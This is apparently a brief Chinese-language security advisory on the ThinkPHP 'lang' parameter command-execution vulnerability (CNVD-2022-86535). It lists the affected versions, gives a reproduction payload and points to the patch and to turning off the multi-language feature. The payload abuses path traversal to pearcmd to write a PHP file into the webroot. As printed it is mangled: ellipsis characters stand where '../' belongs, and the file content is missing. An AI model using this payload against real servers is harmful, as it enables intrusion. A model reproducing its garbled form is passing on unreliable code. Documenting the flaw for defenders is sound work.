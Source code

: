 # ThinkPHP 命令执行漏洞 CNVD-2022-86535

## 漏洞描述

该漏洞是由于 Thinkphp 开启了多语言功能，并且对参数 lang 传参过滤不严谨，导致攻击者可利用该漏洞执行命令。

## 漏洞影响

```
ThinkPHP >=V6.0.1，<=V6.0.13
ThinkPHP >=V5.0.X，<=V5.1.X
```

## 漏洞复现

payload：

```
/index?lang=…/…/…/…/…/…/…/…/usr/local/lib/php/pearcmd&+config-create+/&/+/var/www/html/test.php
```

## 漏洞修复

官方已发布漏洞补丁及修复版本，可以评估业务是否受影响后，酌情升级至安全版本。

如不需要多语言功能，请及时关闭此功能，可参考官方文档：

- https://www.kancloud.cn/manual/thinkphp6_0/1037637
- https://static.kancloud.cn/manual/thinkphp5/118132